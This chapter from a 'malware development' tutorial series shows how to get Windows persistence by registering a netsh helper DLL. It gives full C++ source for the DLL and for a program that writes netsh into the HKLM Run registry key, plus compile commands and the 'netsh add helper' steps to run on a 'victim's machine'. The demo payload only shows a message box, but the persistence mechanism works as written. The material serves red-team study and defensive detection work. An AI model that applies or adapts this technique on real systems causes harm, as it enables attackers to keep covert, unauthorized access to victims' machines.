


\newpage
\subsection{72. malware development: persistence - part 6. Windows netsh helper DLL. Simple C++ example.}

{width="80%"}    

This section is a next part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: Netsh Helper DLL.

### netsh

**Netsh** is a Windows utility that administrators can use to modify the host-based Windows firewall and perform network configuration tasks. Through the use of DLL files, Netsh functionality can be expanded.

This capability enables red teams to load arbitrary DLLs to achieve code execution and therefore persistence using this tool.
However, local administrator privileges are required to implement this technique.

### practical example

Let's go to consider practical example. First of all create malicious DLL:

```cpp
/*
evil.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

And transferred to the target victim's machine.

Netsh interacts with other components of the operating system via dynamic-link library (DLL) files. Each netsh helper DLL offers a comprehensive collection of features. The functionality of Netsh can be expanded using DLL files:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

{width="80%"}    

Then, the `add helper` can be used to register the DLL with the `netsh` utility:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

{width="80%"}    

{width="80%"}    

Everything is worked perfectly!

However, `netsh` is not scheduled to start automatically by default. Persistence on the host is created by creating a registry key that executes the application during Windows startup. This can be done immediately using the script below:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 
    0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see it's similar to script from my post about [persistence via registry run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)

Check registry run keys:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
 /s
```

{width="80%"}    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

and run on victim's machine:      

```powershell
.\pers.exe
```

{width="80%"}    

When the `add helper` command is executed to load a DLL file, the following registry key is created:     

{width="80%"}    

But there is a caveat. The PoC's logic needs to be updated to create a new thread so that netsh can still be used while the payload is running. However, when netsh ends, so does your malicious logic.

So, let's try. Create new DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Compile:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

{width="80%"}    

and run steps again:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

{width="80%"}    

As you can see, everything is ok, `netsh` can still be used. And we can check registry key for correctness:    

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

{width="80%"}    

Because it is based on the exploitation of system features, this type of attack cannot be easily mitigated with preventive controls.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[source code on github](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    
